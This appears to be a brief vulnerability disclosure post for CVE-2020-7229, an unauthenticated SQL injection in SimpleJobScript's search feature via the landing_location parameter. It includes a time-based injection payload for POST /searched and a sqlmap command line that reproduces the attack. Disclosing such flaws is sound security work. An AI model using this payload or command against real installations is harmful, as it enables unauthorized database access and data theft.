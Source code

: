 ```yaml
---
cve: "CVE-2020-7229"
slug: "CVE-2020-7229: Unauthenticated SQL injection in SimpleJobScript"
title: "Unauthenticated SQL injection in SimpleJobScript"
images: [/images/cve-mitre.png]
date: 2020-01-19
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7229
- public announcement: https://github.com/niteosoft/simplejobscript/issues/7

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.

**Details:**  
File: `/_lib/class.Job.php`  
Function: `countSearchedJobs()`  
Parameter: `landing_location`  

**Payload:**  
```
POST /searched
landing_title=aaa&landing_location=77+or+(select+(sleep(2)))
```

**Steps to Reproduce:**  
```
$ sqlmap --threads=10 --batch --dbms=mysql -u "http://local.simplejobscript.net/searched" --data="landing_title=aaa&landing_location=77" -p landing_location --banner
```

**PoC:**
![cve-2020-7229 SimpleJobScript sqli](/images/cve-2020-7229.png)



